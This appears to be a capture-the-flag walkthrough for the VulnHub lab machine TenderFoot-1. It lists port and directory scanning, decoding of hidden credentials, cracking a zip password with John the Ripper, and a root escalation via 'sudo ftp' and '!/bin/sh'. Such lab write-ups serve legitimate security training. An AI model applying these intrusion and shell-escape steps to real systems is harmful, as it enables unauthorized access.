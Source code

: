 # [Machine](https://www.vulnhub.com/entry/tenderfoot-1,581/)

- # ENUM 
	- ### nmap (`nmap -A -p- TenderFoot-1`)
		- ```PORT   STATE SERVICE VERSION
			22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
			| ssh-hostkey: 
			|   2048 a2:b7:2d:95:e1:06:7f:a3:f1:8e:bc:5b:4c:29:19:61 (RSA)
			|   256 42:0c:c9:6d:1d:e9:84:19:6a:8a:d5:51:2c:69:c6:98 (ECDSA)
			|_  256 14:4d:74:42:78:67:9b:f3:dd:00:40:24:4d:12:c9:de (ED25519)
			80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
			|_http-server-header: Apache/2.4.18 (Ubuntu)
			|_http-title: Apache2 Ubuntu Default Page: It works
			Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel```
		- #### OPEN PORTS
			- 22 -> ssh
			- 80 -> http
	- ### dirbuster & gobuster (`gobuster dir -w /usr/share/wordlists/directory-list-lowercase-2.3-big.txt -u http://tenderfoot-1 -x .html,.js,.txt,.php`)
		- #### DIRECTORIES
			- `/hint`
			- `/fotocd`
		- #### FILES
			- `/index.html`
			- `/robots.txt`
			- `/entry.js`

- # EXPLOITATION
	- "Found a directory? Open it `/hint`" (`/robots.txt`)
		- `/hint` -> `EBPV6X27L5PV6X27L5PV6X27L5PV6X27L4FHYICOGB2GQ2LOM4QEQZLSMUQSAIBAEAQCA7AKPQQFI4TZEBZW63LFORUGS3THEBSWY43FEF6AUIBNFUWS2LJNFUWS2LJNFUWS2LJNFUWS2LIKIVXHK3LFOJQXIZJANVXXEZJAHIUQ====` -> base32 -> `N0thing Here! Try something else! Enumerate more :)`
			- Nothing here...
	- Brainfuck language -> (`/fotocd/index.html`)
		- ```=================
			JDk5OTkwJA==
			=================
			
			Did you found username ?
			if yes:
			    Then you have cred. of one user, enter into user account 
			    by ssh port. syntax:{ssh username@IP}
			if not:
			    Then enumerate more :)
			    G00D LUCK !```
			- `JDk5OTkwJA==` -> base64 -> `$99990$` (password)
	- Username: monica (`/entry.js`)
	- Connect via SSH
		- Unzip the file (`gift.zip`) cracking the password with JohnTheRipper (`zip2john gift.zip > gift.hash` -> `john gift.hash`) 
			- Password: h4ck3d
			- No gift :/

- # PRIVILEGE ESCALATION
	- There's a script for getting chandler's shell (`/opt/exec/chandler`)
	- Find `user2.txt`: `find / -name user2.txt 2>/dev/null`
		- `/home/chandler/.cache` -> `note.txt`
			- `OBQXG43XMQ5FSMDVINZDIY3LJUZQ====` -> base64 -> `Y0uCr4ckM3`
	- Log into SSH with chandler's credentials and let's do `sudo -k`
		- FTP is running as root (no password)! Let's check on GTFOBins how to exploit this
			- `sudo ftp` -> `!/bin/sh`
				- We're ROOT!
